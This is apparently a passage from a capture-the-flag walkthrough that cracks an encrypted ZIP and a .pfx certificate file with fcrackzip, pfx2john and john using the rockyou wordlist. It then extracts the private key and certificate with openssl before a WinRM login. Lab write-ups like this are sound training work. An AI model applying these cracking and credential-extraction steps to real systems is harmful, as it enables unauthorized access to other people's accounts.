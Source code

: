 ## Password Attacks

Used `fcrackzip` to crack the encrypted ZIP file:

```bash
fcrackzip -v -u -D -p rockyou.txt winrm_backup.zip

found file 'legacyy_dev_auth.pfx', (size cp/uc   2405/  2555, flags 9, chk 72aa)
checking pw udei9Qui                                

PASSWORD FOUND!!!!: pw == supremelegacy
```

ZIP file contains `legacyy_dev_auth.pfx`. The `openssl` command can be used to extract the private key and certificate (public key) from a `.pfx` file but requires a password.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
```

Use `pfx2john.py` will generate a hash for the pfx file:

```bash
pfx2john legacyy_dev_auth.pfx > pfx_hash.txt
```

Used `john` to crack password:

```bash
john --wordlist=rockyou.txt pfx_hash.txt

thuglegacy       (pfx_hash.txt)
```

With the password, I can extract the key and certificate.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

Decrypt the key using the password set above so we don’t have to remember it:

```bash
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
Enter pass phrase for legacyy_dev_auth.key-enc:
writing RSA key
```

Dump the certificate:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
```

Use `evil-winrm` to connect to host and retrieve the user flag:
